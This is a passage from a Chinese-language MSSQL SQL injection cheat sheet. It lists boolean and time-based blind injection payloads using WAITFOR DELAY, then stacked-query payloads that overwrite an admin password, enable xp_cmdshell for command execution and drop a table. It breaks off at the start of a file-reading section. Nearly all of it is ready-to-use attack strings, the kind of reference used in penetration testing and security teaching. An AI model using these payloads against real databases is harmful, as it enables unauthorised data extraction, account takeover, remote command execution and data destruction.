 示例：

```sql
AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'
AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90
```

## MSSQL 时间基于

在时间基于的盲 SQL 注入攻击中，攻击者注入一个使用 `WAITFOR DELAY` 的负载，使数据库暂停一段时间。然后攻击者观察响应时间来推断注入的负载是否成功执行。

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--
```

```sql
IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
```

## MSSQL 堆叠查询

* 不带任何语句终止符的堆叠查询

    ```sql
    -- 多个 SELECT 语句
    SELECT 'A'SELECT 'B'SELECT 'C'

    -- 使用堆叠查询更新密码
    SELECT id, username, password FROM users WHERE username = 'admin'exec('update[users]set[password]=''a''')--

    -- 使用堆叠查询启用 xp_cmdshell
    -- 你不会看到查询的输出，将其重定向到文件
    SELECT id, username, password FROM users WHERE username = 'admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
    ```

* 使用分号 "`;`" 添加另一个查询

    ```sql
    ProductID=1; DROP members--
    ```

## MSSQL 文件操作

### MSSQL 读取文件

**权限要求**：`BULK` 选项需要 `ADMINISTER BULK OPERATIONS` 或 `ADMINISTER DATABASE BULK OPERATIONS` 权限。
